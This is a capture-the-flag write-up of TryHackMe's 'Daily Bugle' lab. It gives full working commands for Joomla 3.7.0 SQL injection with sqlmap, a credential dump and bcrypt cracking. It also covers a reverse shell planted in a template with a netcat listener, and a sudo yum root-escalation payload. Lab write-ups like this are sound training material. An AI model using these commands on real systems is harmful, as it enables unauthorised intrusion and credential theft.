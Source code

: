 # Daily Bugle

- [Tools](#tools)
- [Deploy](#deploy)
- [Obtain user and root](#obtain-user-and-root)
- [Credits](#credits)
 
Room Link: [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)

## Tools 

- NMap https://nmap.org/download
- JoomScan https://github.com/OWASP/joomscan
- SearchSploit https://www.exploit-db.com/searchsploit
- SQLMap https://github.com/sqlmapproject/sqlmap
- hashid https://pypi.org/project/hashID/
- John The Ripper https://www.openwall.com/john/

## Deploy 

- Start the machine and open the ip in browser.
- Opening the site shows favicon of joomla on main page and a image with a man masked as spider man, looks like an robber.
- Question `Access the web server, who robbed the bank?` Answer `spiderman`

## Obtain user and root

- Running nmap gives some ports.

```bash
nmap -A 10.10.250.153
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 11:33 IST
Nmap scan report for 10.10.250.153
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.97 seconds
```

- Question `What is the Joomla version?` Answer `3.7.0`
Got this details using OWASP joomscan by Mohammad Reza Espargham , Ali Razmjoo.
Command used: `joomscan  -u http://10.10.250.153/`
- Using SearchSploit by exploitDB gives us SQL injection exploits on this joomla CMS version.

```bash
searchsploit joomla 3.7.0
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```

- After some reasearch on the exploit https://www.exploit-db.com/exploits/42033 and using some commands in SQLMap,
At first we crafted a command to begin SQL injection `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E`
- Then crafted a SQLMap command to get db names `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E --dbs` and got a database named `joomla`
- Then crafted a command to table names on DB `joomla` command `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla --tables` and we will get a table named `#__users`
- To extract the table column names, we can use this command, `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" --columns` it will prompt for bruteforcing existing column names, we can find some column names like `id`, `username`, `email`, `password` etc.
- Then, crafted a command to get password hash of users. `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" -C id,name,username,email,password --dump`
It shows result like that,

```bash
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| id  | name       | username | email               | password                                                     |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| 811 | Super User | jonah    | jonah@tryhackme.com | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
```

- We used `hashid` to detect hash type and it could be `bcrypt`.

```bash
hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```

- Now we can use `john the ripper` to decrypt the hash, using `rockyou.txt` wordlist.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***********   (?)
1g 0:00:09:27 DONE (2020-06-14 17:12) 0.001762g/s 82.55p/s 82.55c/s 82.55C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- Question `What is Jonah's cracked password?` Answer `spiderman123`
- Now we can login using username `jonah` and password `spiderman123` on http://10.10.250.153/administrator/.
- Now just goto `Extensions` > `Templates` > `Templates` and select `Beez3` and edit the `index.php` file to get reverse shell.
- Now started  `netcat` with `nc -lvnp 1234` and replaced the code in `index.php` with pentestmonkey shell with own ip port and save.
- Opening http://10.10.250.153/templates/beez3/index.php will give shell.

```bash
nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.250.153 56764
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:23:12 up  5:27,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
```

- We can see only user named `jjameson` with command `ls /home`.
- After some digging we got some password `*************` inside `/var/www/html/configuration.php` using `cat /var/www/html/configuration.php`.
- So used the password to login ssh as user `jjameson` and got the flag
```bash ssh jjameson@10.10.250.153

The authenticity of host '10.10.250.153 (10.10.250.153)' can't be established.
ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.250.153' (ED25519) to the list of known hosts.
jjameson@10.10.250.153's password: 
Last login: Tue Mar  5 04:27:31 2024
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt
**************************
```

- Question `What is the user flag?` Answer `**************************`
- Using `sudo -l` command shows `/usr/bin/yum`.

```bash
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

- Lets follow https://gtfobins.github.io/gtfobins/yum/ sudo exploit to get root.
- Just copy pasting given commands in `b` will upgrade ssh to `root`

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

- So typing `cat /root/root.txt` will give us root flag.

```bash
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cat /root/root.txt
******************************
```

- Question `What is the root flag?` Answer `**************************`

## Credits

- We already completed the machine, just click on completed.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
